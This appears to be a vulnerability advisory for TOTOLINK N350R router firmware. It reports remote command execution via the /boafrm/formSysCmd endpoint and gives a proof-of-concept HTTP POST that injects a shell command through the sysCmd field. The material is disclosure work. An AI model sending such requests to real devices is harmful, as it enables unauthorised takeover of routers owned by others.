


### Overview

- Vendor : TOTOLINK
- Product : N350R
- Version : TOTOLINK_N350R_v2-IP04226A-8196C-SPI-2M16M-V1.2.3-B20130826_1_2701_ALL_0.web

### Vulnerability details

A vulnerability exists in TOTOLINK_N350R_v2-IP04226A-8196C-SPI-2M16M-V1.2.3-B20130826 that allows a remote attacker to execute arbitrary code through the /boafrm/formSysCmd component.






### PoC

```
POST /boafrm/formSysCmd HTTP/1.1
Host: 192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: */*
Connection: close
Content-Length: 29

sysCmd=ping -c 1 192.168.0.60
```
